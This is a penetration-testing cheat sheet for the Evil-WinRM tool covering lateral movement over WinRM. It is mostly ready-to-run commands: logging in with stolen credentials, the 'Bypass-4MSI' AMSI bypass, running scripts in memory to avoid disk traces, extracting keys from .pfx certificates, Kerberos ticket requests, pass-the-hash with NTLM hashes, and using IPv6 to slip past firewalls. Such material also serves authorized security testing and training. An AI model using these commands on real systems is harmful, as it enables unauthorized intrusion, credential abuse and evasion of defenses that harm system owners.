 # Evil-WinRM 

## Link: https://github.com/Hackplayers/evil-winrm

## Port: 5985 (Over HTTP) 5986 (Over HTTPS)

## TIP: Use -S flag to enable SSL. Use this when the WinRM port is 5986 (Over HTTPS)

### Do lateral movement via WinRM protocol using found credentials with evil-winrm

### In your Evil-WinRM session, when authenticating you can use a folder from your local machine as a source to run powershell scripts

    evil-winrm -i TARGET_IP -u USER -p PASSWORD -s /path/to/PowerSharpBinaries

### Bypass AMSI using the command within the session:

    Bypass-4MSI

### Then you can run scripts from memory (DO NOT WRITE ON DISK UNLESS ABSOLUTELY NECESSARY!)

## Authentication Methods

#### 1) Clear text Password

     evil-winrm -i TARGET_IP -u USERNAME -p PASSWORD

#### 2) Certificate (.pfx file)

     openssl pkcs12 -in USER_PFX_CERT.pfx -nocerts -out key.pem -nodes

       openssl pkcs12 -in USER_PFX_CERT.pfx -nokeys -out cert.pem

### After generating the private key from the .pfx file, we use Evil-WinRM to authenticate

    evil-winrm -i TARGET_IP -c CERT.pem -k KEY.pem

#### 3) Kerberos

    kinit USERNAME@DOMAIN.LOCAL (Authenticate and retrieve a ticket on Windows)
  
    impacket-getTGT DOMAIN.LOCAL/USERNAME:PASSWORD (Request a TGT ticket on Linux)

 Configure /etc/krb5.conf file with the appropriate settings (Replace some of the placeholders for your use case)

       [libdefaults]
        default_realm = DOMAIN.LOCAL
        ticket_lifetime = 24h
        renew_lifetime = 7d
        forwardable = true
        dns_lookup_realm = false
        dns_lookup_kdc = true

       [realms]
       DOMAIN.local = {
        kdc = IP or Hostname of KDC/Domain Controller
        admin_server = IP or Hostname of Admin Server
       }

       [domain_realm]
        .domain.local = DOMAIN.LOCAL
        domain.local = DOMAIN.LOCAL

### 

    evil-winrm -r DOMAIN.LOCAL -i DC.DOMAIN.LOCAL (Authenticate via kerberos)

#### 4) NTLM Authentication (Pass-the-Hash)

    evil-winrm -i TARGET_IP -u USER -H NTLM_HASH

#### 5) Authenticate using IPv6 address (In case firewall blocks IPv4 traffic on port 5985)

    evil-winrm -i [IPv6] -u USER -p PASSWORD

### TIP: Enter the IPv6 in your /etc/hosts file and give it a hostname (preferably the target machine name)

